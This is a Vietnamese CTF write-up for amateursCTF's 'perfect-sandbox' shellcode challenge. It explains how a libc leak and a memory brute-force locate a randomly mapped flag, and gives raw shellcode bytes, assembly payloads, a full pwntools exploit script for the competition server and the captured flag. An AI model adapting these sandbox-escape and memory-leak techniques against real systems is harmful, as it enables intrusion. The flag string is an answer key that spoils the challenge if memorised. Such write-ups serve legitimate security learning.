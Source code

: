 # perfect-sandbox
## Phân tích
- Tiếp tục một bài thực thi shellcode, tuy nhiên nó khá mất thời gian
- Khi dừng ở lệnh `jmp rax`
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/bc0a21eb-459a-454b-b05b-fd44793a38f3)
- các thanh ghi đã bị thay đổi, tuy nhiên ta vẫn có thể khai thác địa chỉ của `rax`
- Vùng nhớ flag được tạo một cách random, `/dev/urandom` ta sẽ lấy 4 byte để tạo vùng nhớ cho flag
- Việc bây giờ là tìm giá trị 4 byte ấy
- Khi đọc về cách `mmap` hoạt động thì có vẻ nó sẽ tìm từ trên xuống đến khi nào có vừng nhớ trống thì sẽ tạo ở đó
- Ví dụ `0x10-> 0x20: libc` `0x30->0x40: ld` khi ta `mmap` một vùng nhớ có size 0x10 thì nó tìm được vùng `0x20 -> 0x30` trống và tạo ở đó
- Đồng thời khi chạy trên local mình thấy một vùng địa chỉ được tạo, trong `ld` và nó có 4 byte của `/dev/urandom`
- Nhưng offset từ vị trí mình tìm được trên local khác với vị trí trên local
- Đến đây mình nảy ra ý tưởng
- Do chương trình tạo các vùng nhớ với quyền `read-write` từ những vùng nhớ trống nên mình sẽ brute-force in từ `ld base` xuống đến khi nào mình thấy một vùng dữ liệu 0x1000 có 4 byte và còn lại là null thì thấy
- Từ đây ta có hướng sau `leak libc -> libc base -> ld base (có thể) -> brute-force để tìm 4 byte -> tính địa chỉ đang chứa flag -> sys_write để in flag`

## Khai thác
### Lưu ý
- Ở đây ta không thể gửi một lần shellcode mà gửi từng phần 1. Nghĩa là khi leak libc để tiếp tục shellcode, ta cần viết vào phần kết thúc của shellcode `leak libc`. ví dụ shellcode libc leak dừng lại là 0x12a0 thì ta cần tạo shell nhập vào từ bàn phím (để thực thi brute-force) vào địa chỉ `0x12a0 + <độ dài của shell nhập vào từ bàn phím> = địa chỉ thực thi brute-force`
### Leak libc, libc base, ld base (có thể không phải nhưng nó gần ld base nhất)
```python
payload = "\x49\x89\xC7\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x48\xC7\xC2\x00\x01\x00\x00\x48\xC7\xC6\x60\x40\x40\x00\x0F\x05\x48\xC7\xC0\x00\x00\x00\x00\x48\xC7\xC7\x00\x00\x00\x00\x4C\x89\xFE\x48\x83\xC6\x3F\x48\xC7\xC2\x00\x01\x00\x00\x0F\x05"
sa(b"> ", payload)
libc_leak = u64(p.recv(8))
info("libc leak: "+ hex(libc_leak))
libc.address = libc_leak - libc.sym['open']
info("libc base: " + hex(libc.address))
ld_base = libc.address + 0x254000
info("ld base: " + hex(ld_base))
print(p.recv(248))
```

### Brute-force để tìm 4 byte
```python
payload = asm(f'''
              mov rax, 0x1
              mov rdi, 0x1
              mov rsi, {hex(ld_base + 0x8000*6 - 0x1000)}
              mov rdx, 0x1000
              syscall

              mov rax, 0x0      ; tiếp tục ghi shellcode vào phần tiếp theo
              mov rdi, 0x0
              mov rsi, r15
              add rsi, 0x81
              mov rdx, 0x100
              syscall
              ''')
s(payload)
flag_addr = u64(p.recv(8))
info("flag addr: "+ hex(flag_addr))
```
- Để brute-force thì mình in 1 lần 0x8000 byte 1 lần, thay 0 trong `{hex(ld_base + 0x8000*0)}` từ 1 -> 6
```asm
mov rax, 0x1
mov rdi, 0x1
mov rsi, {hex(ld_base + 0x8000*0)}
mov rdx, 0x8000
syscall
```
### Tính toán địa chỉ chứa flag
```python
payload = asm(f'''
              mov rax, 0x1
              mov rdi, 0x1
              mov rsi, {hex((flag_addr & 0xFFFFF000)+20148224)}
              mov rdx, 0x100
              syscall
              ''')
s(payload)
```

## Fullscript 
```python
#!/usr/bin/python3

from pwn import *

exe = ELF('./chal_patched', checksec=False)
# p = process(["gdbserver", "localhost:4001", "chal_patched"])
p = process("./chal_patched")
context.binary = exe
libc =ELF("./libc.so.6")
def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b* 0x00000000004013bf
                b* 0x0000000000401591
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('amt.rs', 31173)

# payload = asm('''
        #       mov r15, rax
        #       mov rax, 0x1
        #       mov rdi, 0x1
        #       mov rdx, 0x100
        #       mov rsi, 0x404060
        #       syscall
        #       mov rax, 0x0
        #       mov rdi, 0x0
        #       mov rsi, r15
        #       add rsi, 0x3f
        #       mov rdx, 0x100
        #       syscall
#               ''')
payload = "\x49\x89\xC7\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x48\xC7\xC2\x00\x01\x00\x00\x48\xC7\xC6\x60\x40\x40\x00\x0F\x05\x48\xC7\xC0\x00\x00\x00\x00\x48\xC7\xC7\x00\x00\x00\x00\x4C\x89\xFE\x48\x83\xC6\x3F\x48\xC7\xC2\x00\x01\x00\x00\x0F\x05"

GDB()
sa(b"> ", payload)
libc_leak = u64(p.recv(8))
info("libc leak: "+ hex(libc_leak))
libc.address = libc_leak - libc.sym['open']
info("libc base: " + hex(libc.address))
ld_base = libc.address + 0x254000
info("ld base: " + hex(ld_base))
print(p.recv(248))

payload = asm(f'''
              mov rax, 0x1
              mov rdi, 0x1
              mov rsi, {hex(ld_base + 0x8000*6 - 0x1000)}
              mov rdx, 0x1000
              syscall
              mov rax, 0x0
              mov rdi, 0x0
              mov rsi, r15
              add rsi, 0x81
              mov rdx, 0x100
              syscall
              ''')
s(payload)
flag_addr = u64(p.recv(8))
info("flag addr: "+ hex(flag_addr))
payload = asm(f'''
              mov rax, 0x1
              mov rdi, 0x1
              mov rsi, {hex((flag_addr & 0xFFFFF000)+20148224)}
              mov rdx, 0x100
              syscall
              ''')
s(payload)
p.interactive()
# amateursCTF{3xc3pt10n_suppr3ss10n_ftw}
```